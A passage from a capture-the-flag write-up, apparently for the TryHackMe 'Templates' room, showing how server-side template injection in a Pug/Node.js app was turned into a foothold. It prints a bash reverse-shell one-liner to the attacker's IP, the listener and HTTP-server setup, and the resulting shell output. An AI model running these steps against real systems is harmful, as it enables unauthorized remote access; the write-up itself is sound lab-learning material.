 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Templates/images/Pasted%20image%2020221103055200.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Templates/images/Pasted%20image%2020221103055210.png)

It's indeed vulnerable to SSTI!

## Initial Foothold

**Now, we can try to get a shell on the target machine.**

**To do so, I'll use the payload from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs) again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Templates/images/Pasted%20image%2020221103055616.png)

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# nc -lnvp 443
listening on [any] 443 ...
```

- Create a Bash reverse shell payload: (Generated from [revshells.com](https://www.revshells.com/))

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# nano revshell.sh

┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# cat revshell.sh
/bin/bash -i >& /dev/tcp/10.9.0.253/443 0>&1

┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# chmod +x revshell.sh
```

- Host the reverse shell Bash script:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Send the payload from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs):

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Templates/images/Pasted%20image%2020221103055833.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Templates/images/Pasted%20image%2020221103055900.png)

Now, we should have a shell on the target machine!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# nc -lnvp 443       
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.15.9] 49048
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
user@774c7a0d6226:/usr/src/app$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
user
774c7a0d6226
uid=1001(user) gid=1001(user) groups=1001(user)
[...]
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
```